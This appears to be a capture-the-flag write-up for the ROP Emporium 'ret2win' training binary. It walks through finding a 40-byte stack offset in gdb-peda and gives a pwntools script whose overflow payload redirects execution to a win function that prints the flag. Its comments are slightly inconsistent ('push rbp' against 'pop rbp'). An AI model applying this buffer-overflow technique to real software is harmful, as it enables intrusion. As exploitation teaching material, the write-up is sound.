 ```bash
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000400810 in pwnme ()

```

In 64-bit binaries we can see the RIP doesn't contain our sequence. In 64-bit, it will not pop a value into RIP if it cannot actually jump to the address and execute it. So the value is at top of the stack after popping to RIP failed. So from above we can see that RSP has the pattern, we can get value from it. As we can see it has a value of **"AA0AAFAAb"** at the time of segment fault.

Time to find the padding we need in order to execute the instruction properly. Using peda:-

```

gdb-peda$ pattern_offset AA0AAFAAb
AA0AAFAAb found at offset: 40

```

# Creating Exploit

Now, we have all we need to execute the exploit. Now let's craft the exploit.
We need the memory address of RIP and the padding length and python, of course.

Using pwntools to craft exploit:-

```python
from pwn import * # Importing all functions from pwntools

prog = process("./ret2win") # Opening ret2win library

payload = "A" * 40 # padding
payload += p64(0x00400824) # Address of "push rbp" from sym.pwnme

open('payload', 'w').write(payload) # Writing the payload to fie payload.

```

Now, run the exploit:-

```bash
robin@oracle:~/ROP-Emporium$ python ret2win.py
[+] Starting local process './ret2win': pid 9089
[*] Stopped process './ret2win' (pid 9089)
robin@oracle:~/ROP-Emporium$ ./ret2win < payload
ret2win by ROP Emporium
64bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> ROPE{a_placeholder_32byte_flag!}

```

Bam, we read the flag by pushing the `pop rbp` address to RIP hence executing our payload.

Follow me on [twitter](https://twitter.com/d4mianwayne) for more ROP contents.



